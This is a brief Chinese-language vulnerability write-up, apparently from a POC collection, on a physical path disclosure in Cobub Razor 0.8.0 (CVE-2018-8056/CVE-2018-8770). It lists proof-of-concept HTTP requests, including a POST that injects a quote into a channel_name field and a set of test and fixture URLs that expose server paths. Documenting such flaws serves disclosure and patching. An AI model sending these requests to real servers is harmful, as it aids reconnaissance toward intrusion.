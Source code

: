 ```yaml
---
title: （CVE-2018-8056/CVE-2018-8770）Cobub Razor 0.8.0 存在物理路径泄露漏洞
id: zhfly2849
---
```


# （CVE-2018-8056/CVE-2018-8770）Cobub Razor 0.8.0 存在物理路径泄露漏洞

## 一、漏洞简介

## 二、漏洞影响

Cobub Razor 0.8.0

## 三、复现过程

### POC

> 方法一：

```
URL: http://localhost/export.php
HTTP Method: GET
URL: http://localhost/index.php?/manage/channel/addchannel
HTTP Method: POST
Data: channel_name=test"&platform=1 
```

> 方法二：
> Cobub Razor 0.8.0存在物理路径泄露漏洞，当访问特定url时，系统会显示物理路径信息。Cobub Razor是一个在github上开源的系统。

```
HTTP Method: GET
http://localhost/tests/generate.php
http://localhost/tests/controllers/getConfigTest.php
http://localhost/tests/controllers/getUpdateTest.php
http://localhost/tests/controllers/postclientdataTest.php
http://localhost/tests/controllers/posterrorTest.php
http://localhost/tests/controllers/posteventTest.php
http://localhost/tests/controllers/posttagTest.php
http://localhost/tests/controllers/postusinglogTest.php
http://localhost/tests/fixtures/Controller_fixt.php
http://localhost/tests/fixtures/Controller_fixt2.php
http://localhost/tests/fixtures/view_fixt2.php
http://localhost/tests/libs/ipTest.php
http://localhost/tests/models/commonDbfix.php 
```